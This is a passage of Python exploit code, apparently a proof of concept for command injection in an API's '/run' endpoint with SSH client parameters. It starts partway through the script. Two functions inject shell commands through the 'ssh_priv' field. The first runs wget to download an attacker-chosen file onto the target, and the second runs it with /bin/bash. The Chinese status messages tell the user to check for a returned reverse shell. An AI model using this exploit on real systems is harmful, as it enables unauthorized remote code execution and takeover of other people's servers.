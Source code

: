 ```python
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, File_addr, File_name):
    vuln_url = target_url + "/run"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Encoding": "gzip, deflate",
        "DNT": "1",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "application/x-yaml",
        "Accept-Language": "en-US,en;q=0.5"
    }
    data = "token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=peiqi|wget {}".format(File_addr)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 正在执行 wget {} \033[0m".format(File_addr))
        if "return" in response.text and response.status_code == 200:
            print("\033[32m[o] 成功下载{} \033[0m".format(File_addr))
            POC_3(target_url, File_name)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, File_name):
    vuln_url = target_url + "/run"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Encoding": "gzip, deflate",
        "DNT": "1",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "application/x-yaml",
        "Accept-Language": "en-US,en;q=0.5"
    }
    data = "token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=peiqi|/bin/bash {}".format(File_name)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 正在执行 /bin/bash \033[0m".format(File_name))
        if "return" in response.text and response.status_code == 200:
            print("\033[32m[o] 命令执行完毕，请查看是否反弹Shell \033[0m".format(File_name))
            sys.exit(0)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[32m[o] 命令执行成功 \033[0m")
        sys.exit(0)

```